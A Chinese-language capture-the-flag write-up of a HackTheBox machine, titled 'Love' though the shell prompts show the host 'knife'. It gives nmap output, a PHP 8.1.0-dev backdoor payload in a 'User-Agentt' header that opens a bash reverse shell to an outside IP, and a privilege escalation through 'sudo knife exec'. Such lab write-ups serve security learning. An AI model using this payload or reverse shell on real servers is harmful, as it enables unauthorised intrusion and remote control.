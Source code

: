 # HackTheBox-Love

  
  
&lt;!--more--&gt;  
使用`nmap`进行扫描  
```bash  
sudo nmap --min-rate 10000 -sS -Pn -sV 10.129.211.145  
  
Nmap scan report for 10.129.211.145  
Host is up (0.15s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT   STATE    SERVICE VERSION  
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
53/tcp filtered domain  
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds  
```  
开启了`22`端口和`80`端口，访问`80`端口  
在其返回包看到`PHP`版本信息  
```http  
HTTP/1.1 200 OK  
Date: Sat, 13 Apr 2024 10:07:00 GMT  
Server: Apache/2.4.41 (Ubuntu)  
X-Powered-By: PHP/8.1.0-dev  
Vary: Accept-Encoding  
Content-Length: 5815  
Connection: close  
Content-Type: text/html; charset=UTF-8  
```  
此版本是存在后门，可以直接进行`RCE`  
直接反弹一个`shell`到本地  
`User-Agentt:zerodiumsystem(&#34;/bin/bash -c &#39;bash -i &gt;&amp; /dev/tcp/10.10.16.4/8888 0&gt;&amp;1&#39;&#34;);`  
获得`user.txt`的`flag`  
```bash  
james@knife:~$ cat user.txt  
cat user.txt  
8f76f62dae4f23ad7c61094fff67a86d  
```  
继续进行提权  
`sudo -l`进行查看`james`用户的权限  
```bash  
Matching Defaults entries for james on knife:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User james may run the following commands on knife:  
    (root) NOPASSWD: /usr/bin/knife  
```  
可以无需密码以`root`权限执行`/usr/bin/knife`命令  
利用`python`获取一个交互式`shell`  
`python3 -c &#34;__import__(&#39;pty&#39;).spawn(&#39;/bin/bash&#39;)&#34;`  
利用`knife`进行提权  
`sudo /usr/bin/knife exec -E &#39;exec &#34;/bin/sh&#34;&#39;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131823505.png)
  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/hackthebox-love/  

